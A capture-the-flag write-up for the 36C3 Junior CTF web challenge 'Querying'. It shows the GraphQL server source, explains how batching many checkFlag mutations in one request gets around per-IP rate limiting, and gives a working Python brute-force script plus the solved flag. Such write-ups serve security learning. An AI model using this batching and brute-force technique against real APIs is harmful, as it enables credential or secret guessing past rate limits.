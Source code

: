 ```yaml
---
title: 36C3 Querying
published: true
---
```



### 0x0. Introduction
This Challenge was part of the *36C3 Junior CTF*. It was a "Web" challenge with a difficulty rating of "Medium", you were given an URL for the live challenge server and also a copy of the server (with a fake flag obv) as a Docker Container to run locally to test your exploits. The local copy was needed because the real server would give you an timeout after every request to make bruteforcing the solution harder. Sadly I was not able to solve this challenge before the timeup to get some points for it but atleast I was able to complete it shortly afterwards for my own sake.

### 0x1. Challenge Description
```
In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/
```
There was also a file for the local copy attached which looked like this:

.  
├── dist.tar.gz  
├── docker-compose.yml  
├── Dockerfile  
├── package.json  
├── package-lock.json  
├── prisma  
│   ├── datamodel.prisma  
│   ├── prisma.yml  
│   └── seed.graphql  
├── src  
│   ├── generated  
│   │   └── prisma-client  
│   │       ├── index.d.ts  
│   │       ├── index.js  
│   │       └── prisma-schema.js  
│   ├── index.js  
│   └── schema.graphql  
└── yarn.lock  

### 0x2. Looking at the source Code

The most important file for this challenge was the index.js which contained the following code:

```js
const { GraphQLServer } = require('graphql-yoga')
const LRU = require('lru-cache')

const { prisma } = require('./generated/prisma-client')

const MAX_WAIT = 10 * 1000 // 10 seconds

const FLAG = "junior-THIS_IS_A_DUMMY"
const FLAG_REGEX = /$junior-[a-zA-Z0-9_]24^/.compile()

const requestsPerClient = new LRU({
  max: 16 * 1024,
  maxAge: 1000 * 60
})

function bruteforceProtection(context) {
  const ip = context.request.ip
  if (context.request.headers["admin"]) {
    console.log("ip", ip)
    let requests = requestsPerClient.get(ip) || 0
    const waitTime = 15 * requests * 1000
    requestsPerClient.set(ip, requests + 1)
    return new Promise(
      resolve => setTimeout(
        () => (console.log("finished", ip, waitTime) || resolve()), waitTime
      )
    )
  }
  return Promise.resolve()
}

const resolvers = {
  Query: {
    feed: (parent, args, context) => {
      return context.prisma.posts({ where: { published: true } })
    },
    drafts: (parent, args, context) => {
      return context.prisma.posts({ where: { published: false } })
    },
    post: (parent, { id }, context) => {
      return context.prisma.post({ id })
    },
  },
  Mutation: {
    checkFlag(parent, {flag}, context) {
      if (!context.request.headers["admin"]) throw "this got changed!"
      if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
      let i = 0
      while (flag[i] === FLAG[i]) i++
      return i
    },
    createDraft(parent, { title, content }, context) {
      return context.prisma.createPost({
        title,
        content,
      })
    },
    deletePost(parent, { id }, context) {
      return context.prisma.deletePost({ id })
    },
    publish(parent, { id }, context) {
      return context.prisma.updatePost({
        where: { id },
        data: { published: true },
      })
    },
  },
}

const server = new GraphQLServer({
  typeDefs: './src/schema.graphql',
  resolvers,
  context: async (request, response, fragmentReplacements) => ({
    ...request,
    prisma,
    console: await bruteforceProtection(request)
  }),
})

server.start(() => console.log('Server is running on http://localhost:4000'))
```

From the "FLAG_REGEX" we know that the Flag consist of "Junior-" and 24 Characters containing lowercase, uppercase, digits and underscores.
We can use the "Check Flag" function which will tell us how many letters of our input match the actual Flag. So we could give the Webserver an Input like this:

```js
mutation { 
    checkFlag(flag: "j")
}
```

The Server would then return "1".  
This is somewhat screaming for a bruteforce, you can guess one letter at a time and as soon as the integer responds from the server increases you go for the next letter. But there is "BruteforceProtection" build into this which will give us an timeout after every request based on our IP. You could theoretically work around this protection by spoofing your IP after every request, which was some people acctaully did and I won't blame them, whatever works works. But there is another more interesting solution which I want to focus on here.

### 0x3. Solution

The catch is, in graphql you can provide multiple mutations at once. So it is possible to ask the Server for every possible character at a position in a single request. Such a request would look like this:

```js
mutation {
  name1: checkFlag(flag: "junior-A"),
  name2: checkFlag(flag: "junior-B"),
  ...
}
```


Since we need to get 24 characters with this approach we need 24 requests to the server to get the full Flag, which still took a bit but returned the flag in a somewhat reasonable amount of time. 
I came up with the following python Script to get the Flag:

```py
import requests
import operator

url = "http://199.247.4.207:4000/"
header = {
    "content-type": "application/json",
    "admin": "true"
}

base_check = 'checkFlag(flag: "junior-'
name = "name"
possible = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '_'
]

start_query = "mutation {\n"
end_query = "}"
number = 1
i = 0
while (i < 24):
    print("getting charakter " +  str(i))
    for letter in possible:
        start_query = start_query + name + str(number) + ":" + base_check + letter + '")' + "," + "\n"
        number = int(number) + 1
    i = i + 1
    number = 1
    start_query = start_query + end_query
    r = requests.post(url, json={"query": start_query}, headers=header)
    response = r.text
    data = r.json()["data"]
    correct = max(data.items(), key=operator.itemgetter(1))[0]
    right_character = correct[4:]
    base_check += possible[int(right_character)-1]
    start_query = "mutation {\n"
    print(base_check)
```

Flag: junior-Batching_Qu3r1e5_is_FUN1